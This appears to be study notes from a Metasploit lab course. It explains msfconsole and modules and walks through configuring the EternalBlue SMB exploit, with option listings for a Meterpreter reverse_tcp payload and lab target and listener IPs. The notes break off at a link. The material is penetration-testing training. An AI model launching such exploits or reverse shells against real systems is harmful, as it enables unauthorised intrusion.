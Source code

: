 The Metasploit Framework is a set of tools that allow information gathering, scanning, exploitation, exploit development, post-exploitation, and more. While the primary usage of the Metasploit Framework focuses on the penetration testing domain, it is also useful for vulnerability research and exploit development.

  

The main components of the Metasploit Framework can be summarized as follows;

- **msfconsole**: The main command-line interface.
- **Modules**: supporting modules such as exploits, scanners, payloads, etc.
- **Tools**: Stand-alone tools that will help vulnerability research, vulnerability assessment, or penetration testing. Some of these tools are msfvenom, pattern_create and pattern_offset. We will cover msfvenom within this module, but pattern_create and pattern_offset are tools useful in exploit development which is beyond the scope of this module.


While using the Metasploit Framework, you will primarily interact with the Metasploit console. You can launch it from the AttackBox terminal using the `msfconsole` command. The console will be your main interface to interact with the different modules of the Metasploit Framework. Modules are small components within the Metasploit framework that are built to perform a specific task, such as exploiting a vulnerability, scanning a target, or performing a brute-force attack.

EXAMPLE (Eternalblue):
As mentioned earlier, the `show options` command will list all available parameters.

The show options command

           `msf6 exploit(windows/smb/ms17_010_eternalblue) > show options  Module options (exploit/windows/smb/ms17_010_eternalblue):     Name           Current Setting  Required  Description    ----           ---------------  --------  -----------    RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'    RPORT          445              yes       The target port (TCP)    SMBDomain      .                no        (Optional) The Windows domain to use for authentication    SMBPass                         no        (Optional) The password for the specified username    SMBUser                         no        (Optional) The username to authenticate as    VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.    VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.   Payload options (windows/x64/meterpreter/reverse_tcp):     Name      Current Setting  Required  Description    ----      ---------------  --------  -----------    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)    LHOST     10.10.44.70      yes       The listen address (an interface may be specified)    LPORT     4444             yes       The listen port   Exploit target:     Id  Name    --  ----    0   Windows 7 and Server 2008 R2 (x64) All Service Packs   msf6 exploit(windows/smb/ms17_010_eternalblue) >`
        

  

As you can see in the screenshot above, some of these parameters require a value for the exploit to work. Some required parameter values will be pre-populated, make sure you check if these should remain the same for your target. For example, a web exploit could have an RPORT (remote port: the port on the target system Metasploit will try to connect to and run the exploit) value preset to 80, but your target web application could be using port 8080.

In this example, we will set the RHOSTS parameter to the IP address of our target system using the `set` command.

A Meterpreter command prompt

           `msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39 rhosts => 10.10.165.39 msf6 exploit(windows/smb/ms17_010_eternalblue) > show options  Module options (exploit/windows/smb/ms17_010_eternalblue):     Name           Current Setting  Required  Description    ----           ---------------  --------  -----------    RHOSTS         10.10.165.39     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'    RPORT          445              yes       The target port (TCP)    SMBDomain      .                no        (Optional) The Windows domain to use for authentication    SMBPass                         no        (Optional) The password for the specified username    SMBUser                         no        (Optional) The username to authenticate as    VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.    VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.   Payload options (windows/x64/meterpreter/reverse_tcp):     Name      Current Setting  Required  Description    ----      ---------------  --------  -----------    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)    LHOST     10.10.44.70      yes       The listen address (an interface may be specified)    LPORT     4444             yes       The listen port   Exploit target:     Id  Name    --  ----    0   Windows 7 and Server 2008 R2 (x64) All Service Packs`

![[Pasted image 20240814182856.png]]

  

You can override any set parameter using the set command again with a different value. You can also clear any parameter value using the `unset` command or clear all set parameters with the `unset all` command.

You can use the `setg` command to set values that will be used for all modules. The `setg` command is used like the set command. The difference is that if you use the `set` command to set a value using a module and you switch to another module, you will need to set the value again. The `setg` command allows you to set the value so it can be used by default across different modules. You can clear any value set with `setg` using `unsetg`.

**Using modules**

Once all module parameters are set, you can launch the module using the `exploit` command. Metasploit also supports the `run` command, which is an alias created for the `exploit` command as the word exploit did not make sense when using modules that were not exploits (port scanners, vulnerability scanners, etc.).

  
The `exploit` command can be used without any parameters or using the “`-z`” parameter.

The `exploit -z` command will run the exploit and background the session as soon as it opens.

A useful tool is the [[Metasploit Database]] 